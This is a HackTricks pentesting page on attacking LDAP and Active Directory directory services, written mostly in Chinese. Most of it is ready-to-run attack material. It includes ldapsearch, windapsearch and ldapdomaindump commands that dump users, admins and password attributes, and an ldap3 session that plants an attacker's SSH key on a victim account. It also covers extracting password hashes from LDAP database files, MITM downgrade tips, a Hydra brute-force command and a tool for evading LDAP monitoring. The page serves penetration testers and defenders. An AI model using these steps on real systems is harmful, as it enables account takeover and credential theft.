


389, 636, 3268, 3269 - Pentesting LDAP
{% hint style="success" %}
Learn & practice AWS Hacking: HackTricks Training AWS Red Team Expert (ARTE)
HackTricks Training AWS Red Team Expert (ARTE)
Learn & practice GCP Hacking:  HackTricks Training GCP Red Team Expert (GRTE)
HackTricks Training GCP Red Team Expert (GRTE)
Support HackTricks
- Check the subscription plans!
- Join the 💬 Discord group or the telegram group or follow us on Twitter 🐦 @hacktricks_live.
- Share hacking tricks by submitting PRs to the HackTricks and HackTricks Cloud github repos.
LDAP（轻量级目录访问协议）的主要用途是定位各种实体，如组织、个人以及网络中的资源，如文件和设备，包括公共和私有网络。与其前身 DAP 相比，它提供了一种更简化的方法，代码占用更小。
LDAP 目录的结构允许它们分布在多个服务器上，每个服务器都存储一个复制和同步的目录版本，称为目录系统代理（DSA）。处理请求的责任完全由 LDAP 服务器承担，必要时可以与其他 DSA 通信，以向请求者提供统一的响应。
LDAP 目录的组织结构类似于树形层次结构，从根目录开始。这向下分支到国家，然后进一步划分为组织，再到代表各个部门或单位的组织单位，最终达到包括个人和共享资源（如文件和打印机）在内的个体实体级别。
默认端口： 389 和 636（ldaps）。全局目录（ActiveDirectory 中的 LDAP）默认在端口 3268 和 3269（LDAPS）上可用。
PORT STATE SERVICE REASON
389/tcp open ldap syn-ack
636/tcp open tcpwrapped
LDAP 数据交换格式
LDIF（LDAP 数据交换格式）将目录内容定义为一组记录。它还可以表示更新请求（添加、修改、删除、重命名）。
dn: dc=local
dc: local
objectClass: dcObject
dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization
dn ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: dev
dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
Ou: sales
dn: cn= ,ou= ,dc=moneycorp,dc=local
objectClass: personalData
cn:
sn:
gn:
uid:
ou:
mail: pepe@hacktricks.xyz
phone: 23627387495
- 第1-3行定义了顶级域local
- 第5-8行定义了一级域moneycorp (moneycorp.local)
- 第10-16行定义了2个组织单位：dev和sales
- 第18-26行创建了一个域对象并分配了带有值的属性
写入数据
请注意，如果您可以修改值，您可能能够执行非常有趣的操作。例如，想象一下您可以更改您的用户或任何用户的“sshPublicKey”信息。如果这个属性存在，那么ssh很可能是从LDAP读取公钥。如果您可以修改用户的公钥，您将能够以该用户身份登录，即使在ssh中未启用密码认证。
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAINM=,dc=DOMAIN',{'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
Sniff clear text credentials
如果 LDAP 在没有 SSL 的情况下使用，你可以 在网络中嗅探明文凭证。
此外，你可以在 LDAP 服务器和客户端之间 执行 MITM 攻击。在这里，你可以进行 降级攻击，使客户端使用 明文凭证 登录。
如果使用 SSL，你可以尝试像上面提到的那样进行 MITM，但提供一个 虚假证书，如果 用户接受它，你就能够降级认证方法并再次查看凭证。
Anonymous Access
Bypass TLS SNI check
根据 这篇文章，仅通过使用任意域名（如 company.com）访问 LDAP 服务器，他能够以匿名用户的身份联系 LDAP 服务并提取信息：
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
LDAP 匿名绑定
LDAP 匿名绑定 允许 未认证的攻击者 从域中检索信息，例如用户、组、计算机、用户帐户属性和域密码策略的完整列表。这是一种 遗留配置，自 Windows Server 2003 起，仅允许经过认证的用户发起 LDAP 请求。
然而，管理员可能需要 设置特定应用程序以允许匿名绑定，并给予超过预期的访问权限，从而使未认证用户能够访问 AD 中的所有对象。
有效凭据
如果您拥有有效的凭据登录到 LDAP 服务器，您可以使用以下命令转储有关域管理员的所有信息：
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
暴力破解
枚举
自动化
使用此方法，您将能够查看公共信息（如域名）:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
Python
查看使用python进行LDAP枚举
您可以尝试使用python 枚举LDAP，无论是否使用凭据： pip3 install ldap3
首先尝试不使用凭据进行连接：
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
如果响应为 True，如前面的示例所示，您可以从以下位置获取一些 有趣的数据，例如 命名上下文 或 域名 服务器：
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
一旦你拥有命名上下文，你可以进行一些更有趣的查询。这个简单的查询应该会显示目录中的所有对象：
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
或dump整个ldap：
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
windapsearch
Windapsearch 是一个 Python 脚本，用于通过利用 LDAP 查询从 Windows 域中 枚举用户、组和计算机。
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
ldapsearch
检查空凭据或您的凭据是否有效：
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v3839
如果你发现某些内容说“bind 必须完成”意味着凭据不正确。
你可以使用以下命令从一个域中提取所有内容：
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
提取 用户：
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
提取 计算机：
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 我的信息：
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 Domain Admins:
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 Domain Users:
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 Enterprise Admins:
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 Administrators:
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
提取 Remote Desktop Group:
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
要查看您是否可以访问任何密码，您可以在执行其中一个查询后使用 grep：
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
请注意，您在这里找到的密码可能不是真实的...
pbis
您可以从这里下载 pbis: https://github.com/BeyondTrust/pbis-open/，它通常安装在 /opt/pbis。
Pbis 允许您轻松获取基本信息：
#Read keytab file
./klist -k /etc/krb5.keytab
#Get known domains info
./get-status
./lsa get-status
#Get basic metrics
./get-metrics
./lsa get-metrics
#Get users
./enum-users
./lsa enum-users
#Get groups
./enum-groups
./lsa enum-groups
#Get all kind of objects
./enum-objects
./lsa enum-objects
#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\\,\\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done
#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\\,\\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done
#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
echo "$line";
./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
echo "======================"
done
图形界面
Apache Directory
从这里下载 Apache Directory。你可以在这里找到如何使用这个工具的示例。
jxplorer
你可以在这里下载带有 LDAP 服务器的图形界面：http://www.jxplorer.org/downloads/users.html
默认安装在： /opt/jxplorer
.png)
Godap
Godap 是一个用于 LDAP 的交互式终端用户界面，可以用来与 AD 和其他 LDAP 服务器中的对象和属性进行交互。它适用于 Windows、Linux 和 MacOS，支持简单绑定、pass-the-hash、pass-the-ticket 和 pass-the-cert，以及其他一些专门功能，如搜索/创建/更改/删除对象、从组中添加/移除用户、更改密码、编辑对象权限 (DACLs)、修改 Active-Directory 集成 DNS (ADIDNS)、导出为 JSON 文件等。

你可以在 https://github.com/Macmod/godap 访问它。有关使用示例和说明，请阅读 Wiki。
Ldapx
Ldapx 是一个灵活的 LDAP 代理，可以用来检查和转换来自其他工具的 LDAP 流量。它可以用来模糊化 LDAP 流量，以尝试绕过身份保护和 LDAP 监控工具，并实现了在 MaLDAPtive 演讲中提出的大多数方法。

你可以从 https://github.com/Macmod/ldapx 获取它。
通过 kerberos 进行身份验证
使用 ldapsearch 你可以 通过 kerberos 进行身份验证，而不是通过 NTLM，使用参数 -Y GSSAPI
POST
如果你可以访问包含数据库的文件（可能在 /var/lib/ldap 中）。你可以使用以下命令提取哈希：
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
您可以将密码哈希（从 '{SSHA}' 到 'structural'，不添加 'structural'）提供给 john。
配置文件
- 一般
- containers.ldif
- ldap.cfg
- ldap.conf
- ldap.xml
- ldap-config.xml
- ldap-realm.xml
- slapd.conf
- IBM SecureWay V3 服务器
- V3.sas.oc
- Microsoft Active Directory 服务器
- msadClassesAttrs.ldif
- Netscape 目录服务器 4
- nsslapd.sas_at.conf
- nsslapd.sas_oc.conf
- OpenLDAP 目录服务器
- slapd.sas_at.conf
- slapd.sas_oc.conf
- Sun ONE 目录服务器 5.1
- 75sas.ldif
HackTricks 自动命令
Protocol_Name: LDAP #Protocol Abbreviation if there is one.
Port_Number: 389,636 #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol #Protocol Abbreviation Spelled out
Entry_1:
Name: Notes
Description: Notes for LDAP
Note: |
The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.
https://book.hacktricks.xyz/pentesting/pentesting-ldap
Entry_2:
Name: Banner Grab
Description: Grab LDAP Banner
Command: nmap -p 389 --script ldap-search -Pn {IP}
Entry_3:
Name: LdapSearch
Description: Base LdapSearch
Command: ldapsearch -H ldap://{IP} -x
Entry_4:
Name: LdapSearch Naming Context Dump
Description: Attempt to get LDAP Naming Context
Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts
Entry_5:
Name: LdapSearch Big Dump
Description: Need Naming Context to do big dump
Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"
Entry_6:
Name: Hydra Brute Force
Description: Need User
Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f
{% hint style="success" %}
学习与实践 AWS 黑客技术：HackTricks 培训 AWS 红队专家 (ARTE)
学习与实践 GCP 黑客技术：HackTricks 培训 GCP 红队专家 (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 Telegram 群组 或 关注 我们的 Twitter 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud GitHub 仓库提交 PR 来分享黑客技巧。